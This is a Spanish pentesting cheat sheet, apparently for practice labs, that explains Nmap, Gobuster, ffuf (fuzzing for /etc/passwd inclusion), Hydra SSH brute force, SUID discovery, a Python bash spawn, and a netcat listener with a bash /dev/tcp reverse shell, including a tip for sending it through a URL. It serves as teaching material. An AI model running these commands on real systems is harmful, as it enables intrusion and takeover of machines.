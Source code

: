## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

---

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js

    -w: diccionario.

    -x: extensiones que queremos probar.
```

---

### 🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"

    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

---

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

---

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```

---

### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```

---

### 📡 Reverse Shell + Canal de Escucha
Permite tomar control remoto de una máquina: se abre un listener (atacante) y se conecta desde la víctima.

Abre un puerto (3344) a la espera de conexiones.
```
nc -lvnp 3344

-l: escucha.

-v: salida detallada.

-n: no resuelve DNS.

-p 3344: puerto a escuchar.
```

Ejecuta una shell interactiva que redirige entrada/salida hacia la IP del atacante (172.17.0.1) y puerto (3344).
```
bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"
```
> 🧠 Nota: Si se lanza desde navegador o HTTP (por ejemplo en una URL), reemplaza & por %26 para evitar que se corte el comando.

---

### 🎨 Ajustes de Terminal Remota
Configura el entorno de shell para una mejor compatibilidad y apariencia al conectarse por SSH o shells limitadas.
```
export TERM=xterm-256color
export SHELL=/bin/sh
source /etc/skel/.bashrc
```



